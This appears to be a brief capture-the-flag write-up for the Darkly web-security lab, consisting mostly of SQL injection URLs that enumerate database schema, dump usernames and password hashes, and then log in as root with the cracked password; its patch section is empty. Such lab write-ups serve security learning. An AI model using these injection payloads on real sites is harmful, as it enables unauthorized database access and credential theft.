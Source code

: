 ## Exploit

http://[Darkly IP]/?page=member&id=5%20UNION%20SELECT%20TABLE_SCHEMA,COLUMN_NAME%20FROM%20information_schema.columns&Submit=Submit#

http://[Darkly IP]/?page=member&id=5%20UNION%20SELECT%20TABLE_NAME,COLUMN_NAME%20FROM%20information_schema.columns&Submit=Submit#

http://[Darkly IP]/?page=member&id=5%20UNION%20SELECT%20username,password%20FROM%20Member_Brute_Force.db_default&Submit=Submit#

http://[Darkly IP]/index.php?page=signin&username=root&password=shadow&Login=Login#

## Patch

## Resources

[Crack Hash with crackStation](https://crackstation.net/)

[OWASP SQL INJECTION](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection.html)
